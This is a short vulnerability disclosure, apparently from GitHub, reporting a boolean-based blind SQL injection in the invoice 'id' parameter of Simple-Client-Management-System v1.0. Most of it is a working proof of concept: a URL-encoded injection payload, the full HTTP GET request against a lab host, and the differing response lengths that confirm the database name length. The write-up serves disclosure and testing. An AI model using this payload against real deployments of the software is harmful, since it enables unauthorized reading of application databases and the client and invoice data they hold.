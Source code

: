 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/?page=invoice/view_invoice&id=

Vulnerability location: /cms/admin/?page=invoice/view_invoice&id=,id

[+] Payload: /cms/admin/?page=invoice/view_invoice&id=3%27%20and%20length(database())%20=6%20--+  // Leak place ---> id

Current database name: cms_db,length is 6

```sql
GET /cms/admin/?page=invoice/view_invoice&id=3%27%20and%20length(database())%20=6%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```


When length (database ()) = 6, Content-Length: 28835
![image](https://user-images.githubusercontent.com/54017627/164883997-2a8fd237-7978-48e9-be1f-bede5aa5fa3e.png)

![image](https://user-images.githubusercontent.com/54017627/164883937-e8d7d1c5-3c4a-4e4a-a2e2-9e1a58adf510.png)


When length (database ()) = 7, Content-Length: 16073
![image](https://user-images.githubusercontent.com/54017627/164884003-fe9de1a4-fcb1-4b33-b313-76ff17a93828.png)

![image](https://user-images.githubusercontent.com/54017627/164883949-682b5ccc-6ca9-41bc-bd96-0247837bd937.png)

